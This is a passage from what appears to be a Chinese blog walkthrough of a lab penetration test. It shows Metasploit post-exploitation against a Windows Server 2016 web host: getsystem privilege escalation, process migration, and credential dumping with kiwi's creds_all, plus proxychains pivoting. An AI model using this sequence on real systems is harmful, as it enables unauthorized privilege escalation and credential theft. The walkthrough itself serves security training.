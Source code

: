 ![在这里插入图片描述](https://img-blog.csdnimg.cn/1100bda5b93e4d9b8f12500b632b3034.png)

保存后退出，然后看看配置成功没
```
proxychains4 curl 10.10.1.130
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/04168abed18c48b48d9ccdcb94f208b0.png)

成功访问

# 拿下windows server 2016-web
## 提权

回到msf里，进入会话
```
sessions -i 1
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/b6729b17c9ee48e089c088c10aac2061.png)


然后尝试用meterperter的默认提权exp去提权

```
getsystem
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/1e9f56cd48034b4ebedf03114914d43f.png)
## 迁移进程

成功提权到最高权限，通过之前nmap扫描的结果，它已经开启了3389端口，我们导出密码即可，但首先需要迁移进程到一个稳定运行的程序里，这样才能正常导出密码

```
ps #查看后台进程
```
随便导入到一个稳定的进程里

![在这里插入图片描述](https://img-blog.csdnimg.cn/8d4685ff6c604f3f8acce53ab1d2c068.png)


```
migrate 3344
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/024e7c3c3f60485ea32b29dc1411b186.png)

查看shell pid号
```
getpid
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/f547dcb7e6b2476881d94af36e4ad4a9.png)

成功迁移了
## 获取密码
msf导入kiwi
```
load kiwi
```
提取密码
```
creds_all
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/beb5db2987b14a1ebca7f63503b7fbf4.png)
